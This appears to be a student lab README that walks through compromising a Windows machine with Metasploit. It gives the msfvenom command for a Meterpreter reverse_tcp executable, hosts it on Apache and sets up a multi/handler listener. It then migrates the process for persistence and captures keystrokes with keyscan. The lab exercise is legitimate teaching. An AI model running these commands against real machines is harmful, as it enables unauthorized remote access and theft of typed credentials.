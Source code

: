 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/7ada33d2-4768-4cc7-a155-bc020fa8db58)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/bf15930d-cd6a-47b2-9a09-4b47e86730ab)

copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/ca7dc7eb-517b-4b6e-8564-b605a98c2113)


Start apache server
sudo systemctl apache2 start
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/8bbf3262-620a-4329-b345-5e86a9ccdb08)

Check the status of apache2
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/9bc2b719-8f5d-4684-9489-1e3a4b8fd972)

Invoke msfconsole:
## OUTPUT:

![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/1f235765-5c2f-401f-bf6c-6ea482f0be0b)



Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/e960726a-4a92-4876-81a8-b666041cc488)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/9d62c698-0441-4293-8aa1-6c5013236279)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/535ba05a-da29-48f5-9b30-ef1028573369)


Bypass any warning boxes, double-click the file, and allow it to run.
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/5c31d3b4-7e75-442f-8f25-fef64d0b2d11)

On kali give the command exploit
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/3a92b09f-4dd9-4c03-9c46-eea4fde9aaca)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/9e3aeb22-ebc2-47ef-88bb-fa96fb800d64)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/99923d38-7cf4-475b-97c7-416d29e9911c)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/CodesWithRobi/EH-Compromising-windows-using-Metasploit/assets/130537166/f6fce01d-00aa-4726-b6a1-97902bc1dffb)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
